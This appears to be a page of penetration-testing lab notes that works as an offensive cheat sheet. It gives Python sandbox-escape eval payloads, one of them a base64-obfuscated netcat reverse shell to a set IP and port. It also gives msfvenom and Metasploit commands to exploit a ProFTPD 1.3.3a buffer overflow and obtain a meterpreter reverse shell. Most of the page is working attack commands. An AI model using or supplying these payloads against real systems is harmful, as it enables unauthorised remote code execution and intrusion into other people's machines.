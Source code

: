 ## Bypass Python sandbox
#### Important links
- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/
- https://lifesfun101.github.io/2019/12/07/Djinn-walkthrough.html#privilege-escalation-rooute-1
#### Payloads used
```python
eval('__import__("os").system("whoami")')
eval('__import__("os").system("echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC4xMTUuMTM4IDY2NjYgPi90bXAvZg== | base64 -d | sh")')
```

## Proftpd (Version 1.3.3a)
This FTP server is vulnerable to a remote stack-based buffer overflow.
 More details can be found at those URL:
- https://www.exploit-db.com/exploits/16851
- https://www.exploit-db.com/exploits/15449
 
#### Public exploit
It is also possible to attack the remote machine using a public exploit.
We can find it at the following URL:
 - https://www.exploit-db.com/exploits/15449

But before exploiting the remote vulnerable service, we find a do a minor modification.
It is necessary to change the pre-build shellcode used to execute the reverse shell.
To do that we can use msfvenom:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.47 LPORT=2222 -f perl -b "\x09\x0a\x0b\x0c\x0d\x20\xff" -v lnxcbsc
 # -p: payload
 # LHOST/LPORT: parameters
 # -f: format
 # -b: bad chars
 # -v: var name
``` 
 
#### Using Metasploit:
Metasploit has a build in exploit which gives the attacker an easy way to exploit this vulnerability.

You use this exploit and configure it using the following commands:
```bash
use exploit/linux/ftp/proftp_telnet_iac
set RHOST 10.11.1.146
set RPORT 21
set TARGET 2
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.0.47
set LPORT 2222
exploit 
```
